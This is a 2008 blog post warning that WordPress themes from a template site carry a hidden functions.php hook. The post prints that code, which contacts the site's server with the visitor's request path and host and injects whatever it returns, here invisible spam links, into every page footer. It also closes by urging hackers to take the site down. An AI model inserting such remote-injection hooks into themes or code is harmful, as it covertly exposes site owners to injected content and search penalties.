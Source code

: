 ```yaml
---
comments: true
date: 2008-01-24 04:43:02
layout: post
slug: dont-ever-user-wwwtemplatesbrowsercom-for-wordpress-themes
title: Don't ever user www.templatesbrowser.com for wordpress themes
wordpress_id: 182
categories:
- Misc
- php
---
```


Today I noticed a JavaScript error on my site, on investigation I saw the following JavaScript code in the page source:

``` javascript
var CCounter=2151068; var CCsite=www.chapter31.com; CCinvisible=0;
<nosc/ript><a hreflang="de" lang="de" href="http://www.portalux.com/">online casino</a></nosc/ript>
var CCounter=2151068; var CCsite=www.chapter31.com; CCinvisible=0;
```

My investigations found that where I downloaded the template from was a nice (NOT) little site called [http://www.templatesbrowser.com/](http://www.templatesbrowser.com/wordpress-themes/). Now what they do is add a "functions.php" file in the original code base, then call a method from the footer "credits();" which is in the functions.php file:

``` javascript
<?php

function credits()
{
 $url = "http://get.templatesbrowser.com/wp.php?" .
       "url=" . urlencode($_SERVER['REQUEST_URI']) . "&" . "host=" . urlencode($_SERVER['HTTP_HOST']);
 $check = @fsockopen("get.templatesbrowser.com", 80, $errno, $errstr, 3);
 if($check)
 {
  @readfile($url);
  fclose($check);
 }
}

?>
```

More information was found from [www.onnoot.com/](http://www.onnoot.com/e/532/Templatesbrowser.com_puts_link_spam_in_WordPress):


> This produces a link at the bottom of every WordPress page, that is invisible for human readers.
>
> Templatesbrowser.com apparently does this to increase the pagerank of certain websites. Weâ€™re not sure if Google falls for this little link spam trick. But if Google does find out that your page contains link spam, you risk being punished. That could mean that your website is removed from Google's search result pages.

So for those who don't know I hope this was useful, if any people out there are crackers/hackers do me a favour and pull their site down :)
